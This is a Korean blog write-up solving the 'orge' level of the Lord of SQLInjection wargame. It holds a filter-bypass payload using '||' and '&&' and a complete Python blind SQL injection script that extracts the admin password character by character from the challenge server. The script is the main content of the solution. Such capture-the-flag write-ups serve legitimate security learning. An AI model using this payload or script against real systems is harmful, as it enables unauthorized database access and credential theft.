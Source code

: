```yaml
---
layout: single
title: "[Lord of SQLInjection] orge write-up"
date: 2025-04-21 01:21 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## Lord of SQLInjection (orge)

### ✏️ 풀이

해당 문제에선 darkelf 문제와 동일하게 진행하고, `addslashes` 함수를 이용해 pw 값에 대해서 필터링을 진행하고 pw 값이 admin의 pw 값이면 solve이다. 이 문제는 darkelf에서 Blind SQLi 만 추가해서 답을 알 수 있다.

![image-20250423012326653](/images/2025-04-23-los-orge/image-20250423012326653.png)

<br>

darkelf 문제에선 `1' || id='admin' %26%26 1=1 -- -` 로 or and 연산자를 `||` `&&` 문자를 이용해 풀었었다. 이제 1=1 부분을 `ascii(substr(pw,1,1))=65 ` 처럼 바꿔서 파이썬 코드를 짜면 된다.

![image-20250423012704562](/images/2025-04-23-los-orge/image-20250423012704562.png)

<br>

파이썬 코드를 짤 때 주의할 점은 &&를 인코딩한 게 아닌 && 그대로 넣어서 blind sqli 자동화 코드를 짜면 된다.

```python
import requests
from bs4 import BeautifulSoup

url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php"
cookie = {"PHPSESSID": "3gkm2054bi501f689hd20e39cp"}
pw = ""

for i in range(1, 50):
    found = False
    for j in range(32, 128):
        param = {"pw": f"1' || id='admin' && ascii(substr(pw,{i},1))={j} -- -"}
        r = requests.get(url=url, cookies=cookie, params=param)
        html = r.text
        soup = BeautifulSoup(html, "html.parser")
        if "Hello admin" in soup.text:
            print(f"[+] Found! {i}번째 자리는 {chr(j)}입니다.")
            found = True
            pw += chr(j)
            print(f"현재까지 나온 pw: {pw}")
            break
    if not found:
        print(f"[-] 종료: {i}번째 자리를 찾지 못했습니다.")
        break

```

<img src="/images/2025-04-23-los-orge/image-20250423015212981.png" alt="image-20250423015212981" style="zoom:50%;" />

![image-20250423015243795](/images/2025-04-23-los-orge/image-20250423015243795.png)
